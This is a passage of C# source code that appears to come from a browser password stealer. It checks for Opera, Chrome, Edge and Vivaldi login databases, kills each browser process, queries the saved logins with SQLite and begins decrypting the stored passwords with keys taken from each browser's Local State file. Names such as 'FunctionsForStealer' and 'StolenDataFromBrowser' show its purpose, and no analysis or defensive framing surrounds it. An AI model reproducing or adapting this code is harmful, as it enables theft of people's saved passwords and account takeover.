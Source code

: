 ```csharp
                }

                if (File.Exists(Variables.LoginDataPathOpera))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathOpera, FunctionsForStealer.LocalStateKeys.GetKeyOpera(), "Opera.txt", "opera", out Variables.isOperaFound, out Variables.foundOperaPasswords);
                }

                if (File.Exists(Variables.LoginDataPathChrome))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathChrome, FunctionsForStealer.LocalStateKeys.GetKeyChrome(), "Chrome.txt", "chrome", out Variables.isChromeFound, out Variables.foundChromePasswords);
                }

                if (File.Exists(Variables.LoginDataPathEdge))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathEdge, FunctionsForStealer.LocalStateKeys.GetKeyEdge(), "Edge.txt", "edge", out Variables.isEdgeFound, out Variables.foundEdgePasswords);
                }

                if (File.Exists(Variables.LoginDataPathVivaldi))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathVivaldi, FunctionsForStealer.LocalStateKeys.GetKeyVivaldi(), "Vivaldi.txt", "vivaldi", out Variables.isVivaldiFound, out Variables.foundVivaldiPasswords);
                }
            }

            public static void DecryptBrowserPasswords(string pathToLoginData, byte[] localState, string nameTxt, string nameBrowser, out string isFoundBrowser, out int foundPasswordsThisBrowser)
            {
                foundPasswordsThisBrowser = 0;

                try
                {
                    ProcessBrowserKill(nameBrowser);
                    string content = "";
                    string connectionString = $"Data Source={pathToLoginData};Version=3;";
                    using (SQLiteConnection sqliteConnection = new SQLiteConnection(connectionString))
                    {
                        sqliteConnection.Open();
                        List<StolenDataFromBrowser> passwords = new List<StolenDataFromBrowser>();
                        using (SQLiteCommand sqliteCommand = new SQLiteCommand("select * from logins", sqliteConnection))
                        {
                            using (SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader())
                            {
                                while (sqliteDataReader.Read())
                                {
                                    byte[] encryptedPassword = (byte[])sqliteDataReader["password_value"];
                                    if (FunctionsForStealer.FunctionsForDecrypt.IsV10(encryptedPassword))
                                    {
                                        byte[] iv, salt;
                                        FunctionsForStealer.FunctionsForDecrypt.Prepare(encryptedPassword, out iv, out salt);
```
